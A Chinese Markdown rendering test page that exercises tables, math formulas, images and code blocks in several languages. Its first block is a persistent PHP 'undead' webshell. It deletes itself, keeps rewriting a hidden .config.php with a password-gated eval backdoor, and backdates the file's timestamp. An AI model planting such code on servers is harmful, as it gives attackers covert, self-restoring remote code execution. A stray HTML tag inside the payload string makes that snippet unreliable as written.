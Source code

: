 + 简单的不死马示例

  ```php
  <?php
      ignore_user_abort(true);
      set_time_limit(0);
      unlink(__FILE__);
      $file = '.config.php';
      $code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){<span class="label label-primary">@eval($_POST[a]);}</span> ?>';
      //pass=pass
      while (1){
          file_put_contents($file,$code);
          system('touch -m -d "2018-12-01 09:10:12" .config.php');
          usleep(5000);
      }
  ?>
  ```

  > 因为运行该 php 文件后，已经将该脚本读入并作为 `opcode` 进行运行
    > `opcode` 缓存



	### 表格测试

| 时间 | 项目名称 | 项目动态 | 其他 | 测试项1 | 测试项2 | 测试项3|
|----|-----------|--------------------------|--------|--------|--------|--------|
|2023-03-27|[**veinmind-tools**](detail/veinmind-tools.md)|更新 [v2.1.0](detail/veinmind-tools.md#最近更新) 版本|无|√|√|×|
|2023-03-21|[**pocsuite3**](detail/pocsuite3.md)|更新 [v2.0.3](detail/pocsuite3.md#最近更新) 版本|无|√|×|√|
|2023-03-12|[**CDK**](detail/CDK.md)|更新 [v1.5.2](detail/CDK.md#最近更新) 版本|无|√|√|×|
|2023-03-01|[**Antenna**](detail/Antenna.md)|更新 [v1.3.2](detail/Antenna.md#最近更新) 版本|无|√|×|√|
|2023-02-22|[**HaE**](detail/HaE.md)|更新 [v2.4.6](detail/HaE.md#最近更新) 版本|无|√|√|√|
|2023-02-15|[**GShark**](detail/gshark.md)|更新 [v1.1.4](detail/gshark.md#最近更新) 版本|无|√|√|√|
|2023-02-13|[**ENScanGo**](detail/ENScanGo.md)|更新 [v0.0.9](detail/ENScanGo.md#最近更新) 版本|无|√|×|√|
|2023-02-05|[**Viper**](detail/Viper.md)|更新 [v1.5.25](detail/Viper.md#最近更新) 版本|无|√|×|×|
|2023-02-04|[**afrog**](detail/afrog.md)|更新 [v2.2.1](detail/afrog.md#最近更新) 版本|无|√|×|√|
|2023-02-03|[**passive-scan-client**](detail/passive-scan-client.md)|更新 [v0.3.1](detail/passive-scan-client.md#最近更新) 版本|无|√|√|×|


数学公式测试
$$
\frac{1}{
  \Bigl(\sqrt{\phi \sqrt{5}}-\phi\Bigr) e^{
  \frac25 \pi}} = 1+\frac{e^{-2\pi}} {1+\frac{e^{-4\pi}} {
    1+\frac{e^{-6\pi}}
    {1+\frac{e^{-8\pi}}{1+\cdots}}
  }
}
$$

常见函数 `定义域` 如下

+ $y=\frac{a}{b}\Rightarrow(x\neq0)$
+ $y=\sqrt[2n]{x}\Rightarrow(x\geq0)$
+ $y=\sqrt[2n+1]{x}\quad\Rightarrow (x\in(-\infty,+\infty),x\in R)$
+ $y=\log_a{x}\Rightarrow(x>0)\quad$
+ $y=\tan{x}\Rightarrow(x \neq k\pi+\frac{\pi}{2})$
+ $y=\cot{x}\Rightarrow(x\neq k\pi)$
+ $y=\arctan{x},y=arccot{x}\Rightarrow(x\in R,x\in(-\infty,+\infty))$
+ $y=\arcsin{x},y=\arccos{x}\Rightarrow(x\in[-1,1])$


### 图片测试
1. 图片
   + 图片1

    ![](../static/img/code.png)

   + 图片2

    ![](../static/img/1683785041599.jpg)
### 不同代码块测试

```python
from flask import (
    Flask,
    render_template,
    url_for,
    redirect,
    session,
    request
)
from core.woker import WorkSpaceDataAllocate;
from core.basic import md5Enc_
from core.config import *;

import uuid;


template_folder = "../templates"
static_folder = "../static"

class ServerPanInfo:
    def __init__(self) -> None:
        self.key = str( uuid.uuid4() ).replace('-','');
        self.root = False;
```



```sh
#!/bin/bash
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:~/bin
export PATH
LANG=en_US.UTF-8

CURL_CHECK=$(which curl)
if [ "$?" == "0" ];then
	curl -sS --connect-timeout 10 -m 10 https://www.bt.cn/api/wpanel/SetupCount > /dev/null 2>&1
else
	wget -O /dev/null -o /dev/null -T 5 https://www.bt.cn/api/wpanel/SetupCount
fi

if [ $(whoami) != "root" ];then
	echo "不是root权限"
	exit 1;
fi

cd ~
setup_path="/www"
python_bin=$setup_path/server/panel/pyenv/bin/python
cpu_cpunt=$(cat /proc/cpuinfo|grep processor|wc -l)
```



```html
<!DOCTYPE html>
<html lang="en" >
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="../static/js/jquery-3.6.3.min.js"></script>
    <script src="../static/js/popper.min.js"></script>
    <script src="../static/js/sweetalert.min.js"></script>
    <script src="../static/js/bootstrap_5.3/bootstrap.min.js"></script>
    <link rel="stylesheet" href="../static/css/bootstrap_5.3/bootstrap.min.css">
    <link rel="stylesheet" href="../static/css/index.css">

    <!-- ^hljs -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/highlight.js/styles/emacs.css" id="hljsCodeBlockColor">     <!--^ dark: native ;  light: emacs-->
    <script src="../static/Vditor3.9.0/dist/js/highlight.js/highlight.pack.js"></script>
    <script src="../static/js/highlight/highlightjs-line-numbers.min.js"></script>

    <!-- ^kateX.js -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/katex/katex.min.css">
    <script src="../static/Vditor3.9.0/dist/js/katex/katex.min.js"></script>

    <!-- ^Vditor/method.min.js -->
    <script src="../static/Vditor3.9.0/method.min.js"></script>

    <script src="../static/js/function.js"></script>
    <script src="../static/js/md2html.js"></script>
    <title>Document</title>
</head>
<body>
	Hello World!    
</body>
</html>
```



```js
Array.prototype.remove = function(...args){
    while(args.length > 1){
        this.remove(args.pop());
    }
    let index = this.indexOf(args[0]);
    while(index > -1){
        this.splice(index, 1);
        index = this.indexOf(args[0]);
    }
    return this; //注释
}
```



```cpp
#include "serialportthread.h"

serialportthread::serialportthread()
{
    moveToThread(this);
}

void serialportthread::run()
{
    PortSettings set = {BAUD115200,DATA_8,PAR_NONE,STOP_1,FLOW_OFF};
    myCom = new QextSerialPort("/dev/ttyUSB0",set);
    if(myCom->open(QIODevice::ReadWrite)){
        connect(myCom,SIGNAL(readyRead()),this,SLOT(onRead()));
        porthandle = new SerialPortReceive(this);
        connect(porthandle,SIGNAL(byteFinish(QByteArray)),this,SIGNAL(evt_serial_receive(QByteArray)));
        qDebug("ok");
    }else qDebug("no");
    this->exec();
}

void serialportthread::onRead()
{
    QByteArray ba =myCom->readAll();
    porthandle->dataHandle(ba);
}

void serialportthread::send(QByteArray ba)
{
    myCom->flush();
    myCom->write(ba);
}

void serialportthread::mysleep(int a)
{
    msleep(a);
}
```



```c++
#ifndef SERIALPORTTHREAD_H
#define SERIALPORTTHREAD_H

#include <QThread>
#include "./smarthome/qextserialport.h"
#include "./smarthome/serialportreceive.h"
class serialportthread : public QThread
{
    Q_OBJECT
public:
    explicit serialportthread();
    
signals:
    void evt_serial_receive(QByteArray);
private:
    QextSerialPort *myCom;
    SerialPortReceive *porthandle;
public slots:
    void run();
    void onRead();
    void send(QByteArray ba);
    void mysleep(int a);
};

#endif // SERIALPORTTHREAD_H
```

